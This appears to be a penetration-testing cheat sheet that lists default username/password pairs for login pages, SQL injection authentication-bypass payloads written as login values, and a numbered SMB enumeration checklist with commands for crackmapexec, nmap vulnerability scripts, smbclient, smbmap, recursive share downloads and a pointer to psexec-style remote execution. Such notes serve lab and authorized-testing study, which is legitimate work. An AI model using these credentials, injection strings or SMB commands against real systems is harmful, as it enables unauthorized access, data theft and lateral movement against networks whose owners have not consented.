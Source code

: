 #### Default Creds Login Page
| User | Pass |
| ---- | ---- |
| admin | admin |
| admin | password |
| admin | 1234 |
| admin | 123456 |
| root | toor |
| test | test |
| guest | guest |
| anonymous | anonymous |
#### SQL Injection
| User | Pass |
| ---- | ---- |
| tom | tom |
| tom | ' or '1'='1 |
| tom | ' or 1='1 |
| tom | 1' or 1=1 -- - |
| ' or '1'='1 | ' or '1'='1 |
| ' or ' 1=1 | ' or ' 1=1 |
| 1' or 1=1 -- - | blah |
| whatever' or '1'='1 | whatever' or '1'='1 |

### <ins>139/445 - SMB</ins>

#### Try
```
1. Find SMB Version: 
	1. tcpdump -i tun0 port <Victim Port> and src <Victim IP> -s0 -A -n 2>/dev/null 
	2. crackmapexec smb <Victim IP> --shares --port <Victim Port> 1>/dev/null 2>/dev/null

2. Nmap Scan: nmap --script "safe or smb-enum-*" -p 445 <IP>

3. Shares: smbclient -L \\\\<IP>\\

4. Changing Shares: smbclient -L \\\\<IP>\\C$

5. Lists file with permissions: smbmap -H <IP>

6. Downloading: smbget -R smb://<IP>/anonymous

7. type prompt off, recurse on -> lets us download all the files using mget *

8. Nmap Vuln Script: nmap --script "smb-vuln*" -p 139,445 <IP>

9. crackmapexec smb <IP>

10. Users: crackmapexec smb <IP> --users

11. Shares: crackmapexec smb <IP> --shares

12. Try Crackmapexec, psexec, smbexec, wmiexec
```
